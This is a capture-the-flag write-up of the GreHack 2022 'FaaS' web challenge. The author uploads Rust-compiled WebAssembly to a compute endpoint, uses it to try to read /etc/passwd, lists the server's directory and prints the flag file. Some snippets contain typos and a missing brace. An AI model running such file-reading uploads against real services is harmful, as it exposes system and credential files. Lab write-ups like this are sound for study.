

# FaaS

This week-end I participate to the GreHack 2022 event. It was my first presential CTF, so it's my first writeup.

The FaaS challenge was in the web category. They were no real competence needed as WebAssembly (WASM) was kind of explained in the challenge.



The second thing I thought with the given exemple was that I could maybe open a file on the server using the `/compute_file` entrypoint.


```rust
fn main() {
	printl!("Hello World");
}
```

And I compiled it using the `wasm32-wasi` target : `cargo build --targer wasm32-wasi`. When you send the wasm binary to the server on the `/compute_file` entrypoint (which is the interesting one), you should see a `Hello World` printing (that's what we wanted).

Then from here, we can try to retrieve a file on the server. I first started to retrieve the **/etc/passwd** using the `File::open` rust function.

```rust
fn main() {
	let mut file = File::open("/etc/passwd")
		.expect("Rien");
	let mut data = String::new();
	file.read_to_string(&mut data)
		.expect("Rien");
	println!("{}", data);
```

This script should work but I ran into some issues as the server panic and I still don't know really why. Maybe because the `File::open` function needs some dependancies not included inside the wasm binary.

Anyway I wrote an other script using the `fs::read` function to read exactly the same file.

```rust
use std::fs;

fn main() {
	let data = fs::read("/etc/passwd");
	println!("{:?}", data);
}
```

And hurray, the wasm binary works, it just don't display the files but an error : `file not found`. After that I tried the exact same program but I was looking for the **flag.txt** file. Unfortunately this file doesn't exist as well.

So I started to write a program to display all files inside a folder (ls-like).

```rust
use std::fs;

fn main() {
    let paths = fs::read_dir("./").unwrap();

    for path in paths {
        println!("Name: {}", path.unwrap().path().display())
    }
}
```

And second hurray, I can see all files inside the folder and a file was called **flag**. So I used the previous program to display it and it worked. It justed printed it as an ASCII code array so I just needed to convert it into ASCII and that's it.
